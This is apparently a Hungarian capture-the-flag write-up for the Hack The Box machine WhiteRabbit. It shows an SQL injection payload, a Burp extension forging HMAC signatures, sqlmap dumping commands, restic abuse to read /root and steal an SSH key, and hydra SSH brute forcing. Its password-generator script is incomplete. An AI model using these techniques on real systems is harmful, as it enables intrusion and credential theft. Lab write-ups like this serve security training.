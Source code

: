 **Platform:** Linux  
**IP:** 10.10.11.XX 

**Difficulty:** Insane  
**Szerző:** NoSec  


## Felderítés / Recon

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```
Szolgáltatás infó: OS valószínűleg Linux-alapú, a Caddy webszerver fut.

---

## Előkészítés

- **Host fájl szerkesztése**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    
- **Clock skew (időszinkron, ha szükséges)**
```bash
sudo rdate -n whiterabbit.htb
```

---

## Alközpontok és Web Feltárás

**Alközpontok felfedezése:**

A whiterabbit.htb alatti /status/ végpontot brute-force-olva (pl. gobuster,ffuf) megtaláltam a status.whiterabbit.htb-t, ami Uptime Kumát futtat. Egy kis kutakodás ([redacted URL] után a /status/temp/ oldalon új alközpontokat találtam:

- GoPhish: ddb0<link>.whiterabbit.htb
- Wikijs: a668<link>.whiterabbit.htb

-**Webhookok nyomozása:**

A Wikijs endpoint ([redacted URL] egy webhookot mutatott az 28e<link>.whiterabbit.htb felé, ami gyanúsan nézett ki.

-**Kihasználás / Exploitation**

SQLi a Webhookban

A webhook egy x-gophish-signature HMAC aláírást követelt. A titkos kulcsot innen szedtem ki:

Forrás: [redacted URL]
Kulcs: 3CWV<key>

Az HMAC-ot a CyberChef-fel generáltam ([redacted URL] és egy teszt payloaddal SQLi-t próbáltam:
```bash
{"campaign_id":2,"email":"test \$\"","message":"Clicked Link"}
```
Láttam egy MySQL hibát, szóval sebezhető!

-**BurpSuite Automatizálás**

Manuálisan lassú volt, ezért egy Burp kiterjesztést intéztem, ami automatikusan hozzáadja az HMAC fejlécet:

```bash
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```
Telepítve a Burp Custom Extensions-ben (https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/)

-**SQLmap Támadás**

Az SQLi-t sqlmap-mel automatizáltam:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Dátum               | Parancs                                                |
|-----|---------------------|---------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                             |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL] |

-**Jogosultság Növelés / Privilege Escalation**

-Restic Kihasználása

Egy Restic tárolót találtam [redacted URL] jelszóval: ygcsv<redacted> Ezzel mentést csináltam a /root/-ról:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```
Kinyertem egy SSH kulcsot a morpheus-hoz, így be tudtam lépni:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt

```
User flag pipa! 🚀

-**Neo Jelszó Generálás**

A /opt/neo-password-generator/neopassword-generator binárist Ghidra-val néztem meg. A gettimeofday()-ot használja seedként:

 -Számítás: tv_sec * 1000 + tv_usec / 1000 
 -20 karakteres jelszót generál rand() % 62-vel.
 
Mivel a neo 2024-08-30 14:40:42-kor futtatta, a másodperceket tudom, de a mikromásodperceket bruteforce-olnom kellett (0-999). Egy Python szkriptetvhasználtam:

```python
from ctypes import CDLL
import datetime
libc = CDLL("libc.so.6")
seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone.utc).timestamp()
for i in range(0, 1000):
    # [Itt a rand() logika lenne, C-vel pontosabb]
```
Legeneráltam és jöhetett az SSH bruteforece.

```bash
python3 password_generator.py > passwords.txt
```

```bash
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Jelszó:
```nginx
WB<pass>
```

Miután beléptünk SSh-n már csak egy sudo -su parancsot kell használnunk, és kezünkben a root flag


```bash
root@whiterabbit:~# ls
root.txt
```

Jegyzetek & Magyarázat
Mit tanultam ebből a gépről?
Webhook és SQLi abuse: Az Uptime Kuma sebezhetőségei izgalmasak voltak, főleg az HMAC trükkökkel.
Restic kihasználás: Hát, ki gondolta, hogy egy backup tool ennyire fel tudja pörgetni a jogosultságokat?
Bináris analízis: A gettimeofday()-os jelszógenerálás bruteforce-olása igazi agytorna volt.
Automatizálás: A Burp kiterjesztés és sqlmap combo nagyon megkönnyítette az életem.

Hibák, csapdák, tanácsok
Időszinkron figyelj! Ha elcsúszik, az SSH vagy más lépések összeomlanak.
Brute-force türelem: A /status/temp/-re sokáig kerestem, jó lista kell!
Spoilermentes írás: Ne adj ki mindent, hadd élvezzék mások is a nyomozást.
Tesztelj mindent: Az HMAC kulcsot kétszer ellenőriztem, mielőtt sqlmap-et indítottam.

Összegzés
A WhiteRabbit egy menő gép, ami a webes kihasználástól a kreatív jogosultság-növelésig visz. Az Uptime Kuma, SQLi, Restic és a bináris analízis egy szuper mix, amit minden pentester kipróbálhat. User és root flag is megvan, szóval elégedett vagyok! 🚀

Ajánlom mindenkinek, aki szereti a kihívásokat és az AD-s gépek helyett valami mást akar!


